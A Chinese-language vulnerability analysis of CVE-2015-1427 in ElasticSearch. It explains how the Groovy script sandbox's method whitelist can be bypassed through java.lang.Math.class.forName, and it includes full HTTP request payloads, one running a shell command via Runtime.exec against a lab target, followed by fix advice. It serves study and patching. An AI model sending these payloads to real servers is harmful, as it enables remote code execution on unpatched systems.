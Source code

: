 # ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427）

![](imgs/timg.jpg)

## 1.&emsp;漏洞描述

- 漏洞描述：2015 年 03 月 05 日，ElasticSearch 惊爆严重安全漏洞，编号为 CVE-2015-1427 ，该漏洞将导致远程攻击者在受影响的系统上执行任意代码。
- 漏洞编号：CVE-2015-1427
- 漏洞等级：高危
- 影响版本：
  - ElasticSearch 1.4:  1.4.2 ,  1.4.1 ,  1.4.0 ,  1.4.0.Beta1
  - ElasticSearch1.3:  1.3.7 ,  1.3.6 ,  1.3.5 ,  1.3.4 ,  1.3.3 ,  1.3.2 ,  1.3.1 ,  1.3.0

## 2.   漏洞简介

ElasticSearch是一个JAVA开发的搜索分析引擎。2014年，曾经被曝出过一个远程代码执行漏洞（CVE-2014-3120），漏洞出现在脚本查询模块，由于搜索引擎支持使用脚本代码（MVEL），作为表达式进行数据操作，攻击者可以通过MVEL构造执行任意java代码，后来脚本语言引擎换成了Groovy，并且加入了沙盒进行控制，危险的代码会被拦截，结果这次由于沙盒限制的不严格，导致远程代码执行，目前网上还没看到公开的poc，经过一番研究，发现了利用方式，下面来看看漏洞是如何产生的。

Groovy是一种运行在JVM上的脚本语言，语法和java很像，同样可以调用java中的各种对象和方法，但是Groovy的语法更简单。

## 3.&emsp;漏洞分析

首先，我们执行一段带脚本的查询代码：

```http
POST http://127.0.0.1:9200/_search?pretty HTTP/1.1
User-Agent: es
Host: 127.0.0.1:9200
Content-Length: 184

{
"size":1,
    "script_fields": {
        "lupin": {
            "script": "1 + 6"
        }
    }
}
```

上面的请求中1+6，就是我们执行的脚本代码，下面的返回中的7就是执行结果：

![](imgs/1.png)

下面再试着执行一下这段代码：

```http
POST http://127.0.0.1:9200/_search?pretty HTTP/1.1
User-Agent: es
Host: 127.0.0.1:9200
Content-Length: 184

{
"size":1,
    "script_fields": {
        "lupin": {
            "script": "new java.lang.ProcessBuilder(\“calc\”)"
        }
    }
}
```

执行之后，报了错，从错误中可以看到，构造java.lang.ProcessBuilder对象是不允许的：

![](imgs/2.jpg)

下面我们看看ElasticSearch沙盒的相关代码，实现沙盒的类是`com.elasticsearch.script.groovy.GroovySandboxExpressionChecker`，它订制了Groovy的沙盒，对表达式进行了安全检测，但是这个沙盒与JAVA的SecurityManager那种沙盒是不同的。

从代码中可以看到这个沙盒，只是根据黑白名单，在表达式语义上判断表达式是否合法的，可以说是一个“浅”沙盒，简单来来说，比如沙盒设置不允许调用shell()这个方法，直接调用shell()方法，沙盒在表达式中发现了shell()这个字符串，就会报非法调用，但是如果有一个方法叫poc()这个方法中调用了shell()方法（poc(){shell()}）,当调用poc()方法的时候，shell()方法也就被间接调用了沙盒并不会报错。

 具体来说`isAuthorized(Expression expression)`方法如果返回false，说明表达式非法，true则合法，从isAuthorized方法的实现中可以看到，它根据黑白名单对方法调用和对象构造都进行了检测：

![](imgs/3.jpg)

![](imgs/4.jpg)

![](imgs/5.jpg)

从上面的白名单中可以看到，允许构造对象和方法调用的类，都是一些常规类，没有我们可以利用的类，而且如果我们想要利用反射去调用我们想调用的类，方法黑名单中又限制了getClass的调用，我们无法通过getClass方法获取Class对象，但是我们可以看到方法白名单中，并没有对forName方法进行限制，也就是说，如果我们能获取到Class对象，再调用forName方法就可以获取到我们想访问的类。 那么我们如何能够获取一个Class对象呢？首先我想到的是通过`java.lang.String.class`这样的方式，通过class让JVM返回String类的class对象，可以看到的确获取到了Class对象：

![](imgs/6.png)

那么我们在试试可不可以通过这个Class对象调用forName方法，加载java.lang.Runtime这个我们最想要的类，可惜报错了：

![](imgs/7.jpg)

出错的原因是java.lang.String这个类是不允许进行方法调用的，只有在上面defaultReceiverWhiteList这个白名单中的类，才可以进行方法调用，这个控制是在Groovy沙盒类`org.codehaus.groovy.control.customizers.SecureASTCustomizer`中做的判断：

![](imgs/8.jpg)

既然这样，思路就又有了，我们就拿这个白名单中的类获取Class对象，然后再调用forName方法，是不是就可以突破这个限制了，我这里使用java.lang.Math这个类来试试，这个类是在recevicer白名单中的，可以看到成功获取了java.lang.Runtime类：

```http
POST http://127.0.0.1:9200/_search?pretty HTTP/1.1
User-Agent: es
Host: 127.0.0.1:9200
Content-Length: 132

{
"size":1,
    "script_fields": {
        "lupin": {
            "script": "java.lang.Math.class.forName(\“java.lang.Runtime\”)"
        }
    }
}
```

![](imgs/9.png)

有了Runtime类，后面的事情就好办了要调用到的各种方法都不在方法黑名单里面，我这里就不公布具体POC了，看懂上面原理的同学自然明白：

![](imgs/10.png)

## 4.&emsp;漏洞复现

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

```http
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "xiaohuihui"
}
```

然后发送包含payload的数据包，执行任意命令：

```http
POST /_search?pretty HTTP/1.1
Host: 218.2.197.232:20963
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 171
Content-Type: application/text

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /tmp/flag.txt\").getText()"}}}
```

![](imgs/11.png)

## 5.&emsp;修复方案

方法一：升级到官方最新版本

方法二：在 ElasticSearch 文件下 /config/elasticsearch.yml 中加入：`script.groovy.sandbox.enabled: false`
